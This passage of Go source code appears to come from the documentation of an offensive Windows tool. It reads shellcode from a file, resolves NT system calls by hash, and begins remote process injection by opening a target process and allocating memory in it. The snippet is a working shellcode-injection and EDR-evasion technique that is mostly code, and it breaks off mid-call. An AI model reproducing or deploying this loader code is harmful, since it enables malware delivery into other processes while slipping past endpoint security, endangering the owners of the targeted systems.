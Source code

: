 ```go
  // Convert shellcode to bytes
  shellcode, err := ioutil.ReadAll(f)
  if err != nil {
    log.Fatal(err)
  }

  // Retrieve syscalls with its hashes (check variable name)
  NtOpenProcess, err := FunctionFromHash("b76d2ff3e50b716aefc3d0794643a19c6fd410c826d8ff8856821fcc7dc35888")
  if err != nil {
    log.Fatal(err)
  }

  NtAllocateVirtualMemory, err := FunctionFromHash("078b183f59677940916dc1da6726b10497d230dff219f845c7d04c1f0425c388")
  if err != nil {
    log.Fatal(err)
  }

  NtWriteVirtualMemory, err := FunctionFromHash("6d51355d37c96dec276ee56a078256831610ef9b42287e19e1b85226d451410b")
  if err != nil {
    log.Fatal(err)
  }

  NtCreateThreadEx, err := FunctionFromHash("a3b64f7ca1ef6588607eac4add97fd5dfbb9639175d4012038fc50984c035bcd")
  if err != nil {
    log.Fatal(err)
  }

  NtClose, err := FunctionFromHash("6ee03b14f864a4cd9ceffbf4afca092fd2b635a660f5273f01df1b7a88724f4f")
  if err != nil {
    log.Fatal(err)
  }

  // Start calling functions

  fmt.Println("Calling NtOpenProcess...")
  var pHandle uintptr
  r, err := hooka.Syscall(
    NtOpenProcess,
    uintptr(unsafe.Pointer(&pHandle)),
    0x1F0FFF,
    uintptr(unsafe.Pointer(&windows.OBJECT_ATTRIBUTES{RootDirectory: 0})),
    uintptr(unsafe.Pointer(&ClientID{UniqueProcess: uintptr(pid), UniqueThread: 0})),
  )

  if err != nil || r != 0 { // Handle error
    log.Fatal(err)
  }

  // Required variables
  regionSize := uintptr(len(shellcode))
  var rPtr uintptr

  fmt.Println("Calling NtAllocateVirtualMemory...")
  r1, err := hooka.Syscall(
    NtAllocateVirtualMemory,
    pHandle,
    uintptr(unsafe.Pointer(&rPtr)),
    0,
```